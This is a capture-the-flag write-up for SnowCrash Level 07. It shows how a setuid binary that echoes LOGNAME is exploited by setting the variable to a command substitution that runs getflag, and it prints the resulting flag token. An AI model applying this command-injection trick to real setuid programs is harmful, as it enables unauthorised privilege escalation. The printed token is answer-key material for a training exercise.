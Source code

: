 # Level 07

## Vulnerability

Privilege escalation - environment variables

## Context

```
level07@SnowCrash:~$  ls -l 
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

## Solution

Let's see what's in the level07 executable file. 
```
level07@SnowCrash:~$ strings level07
[...]
LOGNAME
/bin/echo %s
```
What  is [LOGNAME](https://unix.stackexchange.com/questions/268378/difference-between-logname-and-logname)? It's "an env variable that contains the user that executes the current shell process." There's also a call to echo here, 
Let's confirm who LOGNAME is, and see if we can change it. 
```
level07@SnowCrash:~$ echo $LOGNAME
level07
level07@SnowCrash:~$ LOGNAME=$"Harry Potter"
level07@SnowCrash:~$ echo $LOGNAME
Harry Potter
```
Hmm... Perhaps we can exploit LOGNAME to launch getflag. 
```
level07@SnowCrash:~$ LOGNAME=$\(getflag\)
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
Success!
